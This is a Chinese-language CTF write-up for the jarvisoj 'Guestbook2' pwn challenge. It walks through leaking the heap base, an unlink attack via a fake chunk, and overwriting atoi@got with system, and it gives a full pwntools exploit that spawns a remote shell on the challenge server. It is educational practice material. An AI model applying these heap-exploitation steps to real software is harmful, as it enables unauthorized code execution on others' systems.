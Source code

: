 ```yaml
---
layout:     post
title:      jarvisoj Guestbook2
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>听说guestbook1很快被人日穿了，出题人表示不服，于是对Guestbook进行了升级，自以为写的很科学~~大家一起鉴定一下。  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/guestbook2.rar.f90369a6de48cbfe84ea32b232ad9630  
>  
>Address:  
>nc pwn.jarvisoj.com 9879  
<!-- more -->


### 0x00 分析

一个简单的留言板工具，是比较典型的堆溢出题

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x00.png)

最初malloc一个大的chunk，用来记录所有note的信息

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x01.png)

这个chunk的大致结构

```
pre_size       -16       存放pre_size
size           -8        存放size
---------------------------------------------------------------
内容           地址       作用分析
---------------------------------------------------------------
256             0    	最大note数量
0               8    	当前note数量
0              16    	1 (此处是否有note)
0              24    	note的长度
0              32    	str (需要劫持的指针,完成内存leak和got覆写)
```

检查delete方法

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x02.png)

检查edit方法

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x03.png)


### 0x01 leak heap_base

先创建4个chunk，大小自动对齐到0x80，free掉chunk0、chunk2，加入bin双向链表

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x04.png)

现在chunk0->bk指向chunk2，覆盖掉chunk0的fd指针，用list方法打印出chunk0的bk指针

```
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('12345678')

leak_data = getpost(0)[8:]
heap_addr = u64((leak_data.ljust(8, "\x00"))[:8])
heap_base = heap_addr - 0x1940  # 0x1810 + (0x10+0x80) * 2 + 0x10 = 0x1940 
chunk_addr = heap_base + 0x30
```

注意chunk_addr中的0x30是大chunk的str指针相对于起始地址的偏移, str是内存中指向chunk0的指针


### 0x02 unlink & double free

```
FD = P->fd;
BK = P->bk;
FD->bk = BK;
BK->fd = FD;
```

构造fake chunk通过 FD->bk = BK->fd = P 检验，free(3)触发unlink，fake chunk向后合并

```
size0 = 0x80+0x90+0x90
add_post(p64(0)+p64(size0+1)+p64(chunk_addr-0x18)+p64(chunk_addr-0x10))
add_post("/bin/sh\x00") # chunk1
add_post("a"*0x80+p64(size0)+p64(0x90)+"a"*0x80+(p64(0)+p64(0x91)+"a"*0x80)*2)
del_post(3)
```

由于BK->fd = FD(*str = &str - 0x18), 最后 chunk0 指向 &str - 0x18，也即指向大chunk中的cur_num


### 0x03 leak system_addr

edit chunk0 覆盖大chunk的cur_num、note_exist、note_len、str(覆盖成atoi@got)

```
edit_post(0, p64(100)+p64(1)+p64(8)+p64(atoi_got))
leak_data = get_post('0. ')
atoi_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
system_addr = atoi_addr - libc.symbols['atoi'] + libc.symbols['system']
success("atoi: "+hex(atoi_addr))
success("system: "+hex(system_addr))
```

leak出atoi_addr，计算得到system_addr，写入system_addr

```
edit_post(0, p64(system_addr))
Io.sendline("$0")
Io.interactive()
```


### 0x04 完整的exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn.jarvisoj.com', 9879)
#Io = process('./guestbook2')
bin = ELF('./guestbook2')
libc = ELF('./libc.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add_post(content):
	Io.sendline('2')
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def edit_post(idx,content):
	Io.sendline('3')
	Io.recvuntil('number')
	Io.sendline(str(idx))
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def del_post(idx):
	Io.sendline('4')
	Io.recvuntil('number')
	Io.sendline(str(idx))
def get_post(content):
  	Io.recvuntil('Your choice: ')
  	Io.sendline('1')
  	Io.recvuntil(content)
  	return Io.recvuntil('\n')

#-----------------init-------------------
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('12345678')

#--------------leak heap_base-------------
leak_data = get_post('12345678')
heap_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
heap_base = heap_addr - 0x1940
chunk_addr = heap_base + 0x30
success("heap_base: "+hex(heap_base))

del_post(0)
del_post(1)
del_post(3)

#-----------------unlink------------------
size0 = 0x80+0x90+0x90
add_post(p64(0)+p64(size0+1)+p64(chunk_addr-0x18)+p64(chunk_addr-0x10))
add_post("/bin/sh\x00")
add_post("a"*0x80+p64(size0)+p64(0x90)+"a"*0x80+(p64(0)+p64(0x91)+"a"*0x80)*2)
del_post(3)

#------------leak system_addr-------------
atoi_got = bin.got['atoi']


edit_post(0, p64(100)+p64(1)+p64(8)+p64(atoi_got))
leak_data = get_post('0. ')
atoi_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
system_addr = atoi_addr - libc.symbols['atoi'] + libc.symbols['system']
success("atoi: "+hex(atoi_addr))
success("system: "+hex(system_addr))

#-------------------pwn--------------------
edit_post(0, p64(system_addr))
Io.sendline("$0")
Io.interactive()
```

getshell

![](/assets/img/writeup/pwn/2017-07-31-jarvisoj-guestbook2/0x05.png)